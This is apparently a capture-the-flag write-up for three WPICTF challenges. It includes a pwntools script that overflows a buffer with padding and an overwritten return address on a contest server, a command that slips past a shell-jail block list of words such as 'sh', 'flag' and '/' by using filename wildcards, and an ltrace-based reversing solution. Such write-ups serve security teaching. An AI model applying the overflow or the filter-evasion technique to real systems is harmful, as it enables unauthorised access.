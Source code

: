 EZPZ, Pwn, 100pts
==================

Problem
--------
nc ezpz.wpictf.xyz 31337

Solution
--------
We run the following script -

```python
from pwn import *


r = remote('ezpz.wpictf.xyz', 31337)

msg = r.recvline()
print(msg)
flag_address = int(msg.split(' ')[1], 16)
r.recvline()

buf  = 'A'*0x88
buf += p64(flag_address)
r.sendline(buf)


r.interactive()
```

This gives the flag - `WPI{3uffer_0verflows_r_ezpz_l3mon_5queazy}`.

Shell-JAIL-1, Pwn, 150pts
==========================

Problem
--------
Download the login private key, then run:

ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz

redundant servers on 31338 and 31339

Solution
---------
The solution was to not use "\*", "sh", "/", "home", "pc_owner", "flag", "txt" in the command to display flag.txt.

So we run - `./access "cat ????.???"`

The flag is - `wpi{MaNY_WayS_T0_r3Ad}`.

Penguin, Reversing, 50pts
=========================

Problem
-------
Find flag.

Solution
--------

We use ltrace to see program flow.

Running `ltrace WPI{1}`

Gives output -  
![](output.png)

So we keep doing that, and finally get the flag - `WPI{strings_only_gives_you_wings,_you_still_have_to_learn_how_to_fly._try_hexedit}`.
